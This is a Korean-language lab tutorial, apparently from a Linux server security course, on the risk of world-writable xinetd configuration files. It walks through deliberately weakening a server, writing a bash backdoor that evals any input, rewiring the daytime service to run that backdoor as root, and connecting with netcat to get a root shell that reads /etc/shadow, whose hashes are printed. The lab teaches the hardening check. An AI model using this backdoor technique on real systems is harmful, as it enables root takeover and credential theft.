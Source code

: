 ## /etc/(x)inetd.conf 파일 소유자 및 권한 설정

누구나 `xinetd` 설정 파일을 수정할 수 있으면 어떤 문제가 발생할 수 있는지 알아봅시다.

### 실습 1 : `xinetd` 설정 파일 수정을 통한 간단한 백도어 생성

**[취약한 리눅스 서버 관리자] 취약한 시스템을 만듭시다!**

1. 우선 슈퍼 데몬인 `xinetd`를 설치합니다.
```
cju@wooam:~$ sudo apt install xinetd
```

2. `xinetd.conf` 파일의 접근 권한을 살펴봅시다.
```
cju@wooam:~$ ls -l /etc/xinet.conf
```

3. `xinetd.conf` 파일의 내용도 살펴봅시다. `/etc/xinetd.d` 디렉터리를 포함(`includedir`)하는 것을 확인할 수 있습니다.
```
cju@wooam:~$ cat /etc/xinetd.conf
# Simple configuration file for xinetd
#
# Some defaults, and include /etc/xinetd.d/

defaults
{

# Please note that you need a log_type line to be able to use log_on_success
# and log_on_failure. The default is the following :
# log_type = SYSLOG daemon info

}

includedir /etc/xinetd.d
```

4. `/etc/xinetd.d` 디렉토리를 살펴봅시다.
```
cju@wooam:~$ ls /etc/xinetd.d/
chargen  chargen-udp  daytime  daytime-udp  discard  discard-udp  echo  echo-udp  servers  services  time  time-udp
```

5. `/etc/xinetd.d` 디렉터리 파일 중 하나의 접근 권한을 `-rw-rw-rw-`로 변경합니다. 여기서는 `daytime`의 접근 권한을 변경합니다.
```
cju@wooam:~$ sudo chmod 666 /etc/xinetd.d/daytime
```

**[공격자] `daytime` 서비스 대신 백도어를 올립니다!**

> 공격자가 취약한 리눅스 서버에 일반 사용자 계정으로 접속했다고 가정합니다.

6. `xinetd` 관련 파일의 접근 권한을 살펴봅시다. `/etc/xinetd.d/daytime` 파일을 아무나 수정할 수 있음을 발견합니다.
```
aaa@wooam:~$ ls -l /etc/xinetd.conf /etc/xinetd.d
```

7. 아래와 같이 간단한 백도어를 만듭니다.
```
aaa@wooam:~$ cat hola
#!/bin/bash
read yourcommand
eval $yourcommand
echo "Thanks you for using this backdoor!"
```

8. 만든 백도어 파일에 실행 권한을 부여합니다.
```
aaa@wooam:~$ chmod 755 hola
```

9. `/etc/xinetd.d/daytime` 파일을 아래와 같이 수정합니다. `disable = no`로 수정하고 `type = INTERNAL` 라인은 삭제합니다. 그리고 `server = /home/aaa/hola`를 추가합니다.
```
aaa@wooam:~$ cat /etc/xinetd.d/daytime
# default: off
# description: An internal xinetd service which gets the current system time
# then prints it out in a format like this: "Wed Nov 13 22:30:27 EST 2002".
# This is the tcp version.
service daytime
{
	disable		= no
	id		= daytime-stream
	socket_type	= stream
	protocol	= tcp
	user		= root
	wait		= no
	server		= /home/aaa/hola
}

# This is the udp version.
service daytime
{
	disable		= yes
	type		= INTERNAL
	id		= daytime-dgram
	socket_type	= dgram
	protocol	= udp
	user		= root
	wait		= yes
}

```

10. `xinetd` 서비스가 재시작되었다고 가정합니다.
```
cju@wooam:~$ sudo systemctl restart xinetd
```

**[공격자] `daytime` 백도어를 통해 자유롭게 시스템을 사용합니다!!!**

11. `nc` 명령어를 이용하여 백도어에 접근합니다.
```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
whoami
root
```

12. 셸도 실행 가능합니다!
```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
sh
pwd
/
tail /etc/shadow
saned:*:19411:0:99999:7:::
colord:*:19411:0:99999:7:::
geoclue:*:19411:0:99999:7:::
pulse:*:19411:0:99999:7:::
gnome-initial-setup:*:19411:0:99999:7:::
hplip:*:19411:0:99999:7:::
gdm:*:19411:0:99999:7:::
cju:$y$j9T$yeQ4tioqxJ7oL38.L4j6e/$oAaCPWRn0yIwLOdn5UeYEOXG4ODWzQd/Dqn.e.g1Fu5:19425:0:99999:7:::
aaa:$y$j9T$wk9l0Wr4Y5gUub6/OsP8K1$2hzQYlTlOeX0WfXxUxpfb4dWItOB0c/UrZzoPej8cE8:19439:0:99999:7:::
sshd:*:19439:0:99999:7:::
exit
```